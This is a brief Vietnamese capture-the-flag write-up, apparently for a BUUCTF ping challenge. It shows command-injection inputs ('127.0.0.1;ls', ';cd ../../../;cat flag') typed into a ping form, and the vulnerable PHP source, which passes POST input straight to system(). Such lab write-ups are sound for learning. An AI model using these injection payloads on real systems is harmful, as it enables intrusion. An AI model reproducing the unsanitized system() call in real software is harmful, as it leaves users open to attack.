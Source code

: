 Ta có form challenge như sau

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bd75f6ab-d523-4131-a1a9-718a24a6f396)

Mình thử nhập 127.0.0.1 vì bài có nhắc đến Ping.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/38584d7c-7ba6-4ad3-a08e-27b22b01b6f4)

Kế đó sử dụng comand ls, `127.0.0.1;ls`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f00098f9-35ef-4794-86a5-647a2a783096)

cat và viewsorce để xem file index.php

```php
<?php 
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```

Cũng không có gì dặc biệt lắm mình thử mò cd cho đến khi `;cd ../../../;ls`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/aaa57706-bcbe-4029-bad7-b226e718e847)

Sau đó ta chỉ cần cat vào là được lụm key, `;cd ../../../;cat flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/3bb6cbac-97dc-45fe-9557-4474848079f4)


